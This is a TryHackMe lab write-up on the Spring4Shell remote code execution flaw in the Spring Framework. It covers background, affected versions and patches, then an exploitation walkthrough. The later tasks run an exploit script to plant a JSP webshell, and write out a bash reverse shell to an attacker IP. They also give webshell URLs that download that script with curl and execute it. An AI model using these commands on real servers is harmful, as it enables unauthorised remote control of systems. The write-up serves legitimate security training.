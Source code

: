 ```yaml
---
published: true
---
```

Using remote command execution on vulnerable Java Spring framework which affect a component of framework called “Spring Cloud Functions”. The secondary portion of vulerability affects “Spring Core” which leans on the (Log4Shell) and is named “Spring4Shell”.

----------

Legal Notice && Usage: *The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.* *By continuing, you acknowledge the aforementioned user risk/responsibilities.*

----------



# Task 2  **Tutorial** Vulnerability Background

SpringSource Spring Framework 2.5.x before 2.5.6.SEC02, 2.5.7 before 2.5.7.SR01, and 3.0.x before 3.0.3 allows remote attackers to execute arbitrary code via an HTTP request containing class.classLoader.URLs[0]=jar: followed by a URL of a crafted .jar file.


## Workings of CVE

(Copied from TryHackMe Room: https://tryhackme.com/room/spring4shell)

Model-View-Controller is part of the Spring Framework which is used to develop web applications followinga  diesign pattern. The patters are 

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.

**How Does it Work?**
To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.
Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.

**Limitations**
Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.
The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.
Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

- JDK 9+
- A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)
- Apache Tomcat as a server for the Spring application, packaged as a WAR
- A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework

It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

**Remediations**
Fortunately, patched versions of the Spring Framework have been released. To remediate Spring4Shell, ensure that you are using a version of Spring released after patch 18 of minor release 5.3 (i.e. after 5.3.18), or after patch 20 if using minor release 5.2 (i.e. after 5.2.20). Upgrading the version of the framework is enough to remove the vulnerability from your applications.
If upgrading is not possible, it is possible to somewhat mitigate this vulnerability by setting a blocklist of vulnerable field patterns. More advice on this can be found [here](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement).


# Task 3  Practical Exploitation

Download the file/unzip with password `TryHackMe123!`

`Exploit.py`

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649352726699_image.png)


Target IP: 10.10.222.167

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353547100_image.png)


source:

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353564518_image.png)


**Exploit Target**

    python3 exploit.py http://10.10.222.167
![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353814581_image.png)


Access target:

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649353842145_image.png)


**Answer the questions below**

Follow the steps in the task to exploit Spring4Shell and obtain a webshell.

    no answer needed


**[Bonus Question: Optional]** Use your webshell to obtain a reverse/bind shell on the target.
Create `bashshell.sh`

    #!/bin/bash
    
    bash -i >& /dev/tcp/10.6.124.83/443 0>&1



    http://10.10.222.167/tomcatwar.jsp?pwd=thm&cmd=curl%2010.6.124.83/bashshell.sh%20-o%20/dev/shm/bashshell.sh

Upload to target `/dev/shm` and `chmod 777 bashshell.sh`

execute script in browser with `cmd`

    http://10.10.222.167/tomcatwar.jsp?pwd=thm&cmd=bash%20/dev/shm/bashshell.sh

![](https://paper-attachments.dropbox.com/s_9B468C5B34E463A3B8A2E9D3664DBC7DF5F5BB96AF653EC4B8D7624BE536D87C_1649356225176_image.png)


What is the flag in `/root/flag.txt?`

    THM{NjAyNzkyMjU0Mz....wZDdiM2E5YzFm}
